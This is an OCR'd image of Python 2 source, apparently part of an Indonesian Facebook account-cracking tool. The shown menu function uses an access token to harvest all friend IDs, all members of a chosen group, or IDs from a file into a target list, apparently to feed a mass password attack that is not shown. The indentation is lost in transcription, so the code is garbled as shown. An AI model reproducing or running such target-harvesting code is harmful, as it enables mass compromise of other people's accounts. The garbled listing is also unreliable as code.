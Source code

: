 
def pilih_super():
peak = raw_input('╚═\x1b[1;91m▶\x1b[1;97m ')
if peak == '':
print '\x1b[1;91m[!] Can\'t empty'
pilih_super()
else:
if peak == '1':
os.system('clear')
print logo
print 52 * '\x1b[1;97m\xe2\x95\x90'
jalan('\x1b[1;91m[+] \x1b[1;92mMengambil id Teman \x1b[1;97m...')
r = requests.get('https://graph.facebook.com/me/friends?access_token=' + toket)
z = json.loads(r.text)
for s in z['data']:
id.append(s['id'])

else:
if peak == '2':
os.system('clear')
print logo
print 52 * '\x1b[1;97m\xe2\x95\x90'
idg = raw_input('\x1b[1;91m[+] \x1b[1;92mID Group \x1b[1;91m:\x1b[1;97m ')
try:
r = requests.get('https://graph.facebook.com/group/?id=' + idg + '&access_token=' + toket)
asw = json.loads(r.text)
print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mName grup \x1b[1;91m:\x1b[1;97m ' + asw['name']
except KeyError:
print '\x1b[1;91m[!] Group not found'
raw_input('\n\x1b[1;91m[ \x1b[1;97mBack \x1b[1;91m]')
super()

re = requests.get('https://graph.facebook.com/' + idg + '/members?fields=name,id&limit=999999999&access_token=' + toket)
s = json.loads(re.text)
for i in s['data']:
id.append(i['id'])

else:
if peak == '3':
os.system('clear')
print logo
print 52 * '\x1b[1;97m\xe2\x95\x90'
try:
idlist = raw_input('\x1b[1;91m[+] \x1b[1;92mFile ID \x1b[1;91m: \x1b[1;97m')
for line in open(idlist,'r').readlines():
id.append(line.strip())
except IOError:
print '\x1b[1;91m[!] File not found'
raw_input('\n\x1b[1;91m[ \x1b[1;97mBack \x1b[1;91m]')
super()
